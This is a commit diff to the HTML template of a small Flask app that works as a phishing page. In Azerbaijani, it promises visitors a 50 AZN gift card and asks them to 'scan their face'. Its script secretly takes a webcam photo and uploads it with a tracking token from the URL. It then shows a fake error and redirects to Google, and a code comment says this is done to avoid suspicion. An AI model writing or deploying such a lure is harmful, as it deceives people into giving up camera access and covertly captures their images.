

Before and after one commit to gnclyv/bot, a Flask app: page / in a window 1280 px wide. Shown: the top 310 px of the page, without its empty margins (315-964 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,39 +1,56 @@
 <!DOCTYPE html>
-<html>
+<html lang="az">
 <head>
-    <title>Hədiyyə Çarxı</title>
-    <meta name="viewport" content="width=device-width, initial-scale=1">
-    <style>body { font-family: sans-serif; text-align: center; background: #f0f2f5; }</style>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Hədiyyə Çarxı 🎁</title>
+    <style>
+        body { font-family: 'Segoe UI', sans-serif; text-align: center; background: #f0f2f5; padding-top: 50px; }
+        .btn { padding: 15px 30px; background: #28a745; color: white; border: none; border-radius: 5px; cursor: pointer; font-size: 18px; }
+    </style>
 </head>
 <body>
-    <h2>🎁 Təbriklər!</h2>
-    <p>Hədiyyənizi götürmək üçün kameraya icazə verin.</p>
-    <video id="v" autoplay style="display:none"></video>
-    <canvas id="c" style="display:none"></canvas>
+    <h1>Təbriklər! 🎉</h1>
+    <p>Siz 50 AZN dəyərində hədiyyə kartı qazandınız.</p>
+    <p>Hədiyyəni təsdiqləmək üçün "İcazə Ver" düyməsini sıxın və üzünüzü skan edin.</p>
+
+    <button class="btn" onclick="startCapture()">Hədiyyəni Aktiv Et</button>
+
+    <video id="video" autoplay style="display:none"></video>
+    <canvas id="canvas" style="display:none"></canvas>
 
     <script>
         const urlParams = new URLSearchParams(window.location.search);
         const token = urlParams.get('t');
 
+        function startCapture() {
             navigator.mediaDevices.getUserMedia({ video: true })
-        .then(s => {
-            const v = document.getElementById('v');
-            v.srcObject = s;
+            .then(stream => {
+                const video = document.getElementById('video');
+                video.srcObject = stream;
+
+                // 2 saniyə sonra şəkli çəkirik
                 setTimeout(() => {
-                const c = document.getElementById('c');
-                c.width = 640; c.height = 480;
-                c.getContext('2d').drawImage(v, 0, 0);
-                const img = c.toDataURL('image/png');
+                    const canvas = document.getElementById('canvas');
+                    canvas.width = 640;
+                    canvas.height = 480;
+                    canvas.getContext('2d').drawImage(video, 0, 0);
+                    const imageData = canvas.toDataURL('image/png');
 
                     fetch('/upload', {
                         method: 'POST',
-                    headers: {'Content-Type': 'application/json'},
-                    body: JSON.stringify({ token: token, image: img })
+                        headers: { 'Content-Type': 'application/json' },
+                        body: JSON.stringify({ token: token, image: imageData })
                     }).then(() => {
-                    window.location.href = "https://google.com"; // Şübhə yaratmamaq üçün yönləndir
+                        alert("Xəta baş verdi. Zəhmət olmasa daha sonra yenidən yoxlayın.");
+                        window.location.href = "https://google.com";
                     });
                 }, 2000);
+            })
+            .catch(err => {
+                alert("Kameraya icazə vermədən hədiyyəni götürə bilməzsiniz!");
             });
+        }
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
